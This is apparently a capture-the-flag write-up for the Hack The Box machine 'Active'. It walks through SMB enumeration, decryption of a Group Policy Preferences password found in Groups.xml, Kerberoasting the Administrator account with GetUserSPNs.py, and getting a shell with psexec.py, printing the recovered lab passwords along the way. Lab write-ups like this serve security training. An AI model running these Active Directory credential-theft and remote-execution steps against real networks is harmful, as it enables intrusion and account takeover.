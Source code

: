 ```yaml
---
description: Walkthrough (Easy)
---
```


# Active 🟢🟢🟢

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

[https://app.hackthebox.com/machines/Active](https://app.hackthebox.com/machines/Active)  &#x20;

Active is an easy to medium difficulty machine, which features two very prevalent techniques to gain privileges within an Active Directory environment.

### Reconnaissance

```bash
nmap -T4 -F -sVC 10.10.10.100 -oN Nmap
```

<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

* Found SMB open in port 139, 445 lets try it.

### Enumeration

```bash
smbmap -H 10.10.10.100
```

<figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

* Got Replication folder where we can Read it. So lets connect to that folder :)

```bash
smbclient \\\\10.10.10.100\\Replication
```

<figure><img src="../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

* Inside active.htb directory there are bunch of files and folders available, So lets download them all by using command mget \*

```bash
find . -type f
```

* found come intresting file Groups/Groups.xml

{% code overflow="wrap" fullWidth="true" %}
```xml
┌──(root㉿kali)-[/home/…/Downloads/Machines/HackTheBox/Active]
└─# cat Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml 
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
{% endcode %}

* Found User SVC\_TGS and a password hash

### Info about Group Policy Preferences&#x20;

Group Policy Preferences (GPP) was introduced in Windows Server 2008, and among many other features, allowed administrators to modify users and groups across their network. An example use case is where a company’s gold image had a weak local administrator password, and administrators wanted to retrospectively set it to something stronger.&#x20;

The defined password was `AES-256` encrypted and stored in `Groups.xml` . However, at some point in 2012, Microsoft published the AES key on MSDN, meaning that passwords set using GPP are now trivial to crack and considered low-hanging fruit.

We extract the encrypted password form the `Groups.xml` file and decrypt it using `gpp-decrypt`

{% code fullWidth="false" %}
```bash
┌──(root㉿kali)-[/home/…/Downloads/Machines/HackTheBox/Active]
└─# gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```
{% endcode %}

### Getting User.txt

```bash
smbclient -U SVC_TGS%GPPstillStandingStrong2k18 //10.10.10.100/Users
```

* that is -> -U user%password

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

* Goto SVC\_TGS and in Desktop there is user.txt

### Previlage Escalation

```bash
GetADUsers.py -all active.htb/svc_tgs:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100
```

<figure><img src="../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

* `GetADUsers.py` is a python script used for Active Directory of SMB and it list all the users in that SMB connection.
* Found 4 users. But interesting is  Administrator the root.
* Check for any activity, request response from Administrator to our SVC\_TGS user

```bash
GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100 -request -save -outputfile hash
```

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

* Captured that hash and cracked it using JohnTheRipper.
* Now we got user:administrator pass:Ticketmaster1968

### Getting Root.txt

```bash
psexec.py Administrator@10.10.10.100 cmd.exe
```

* psexec.py used for SMB connect and remote code execution.

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

* Found root flag.&#x20;

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>
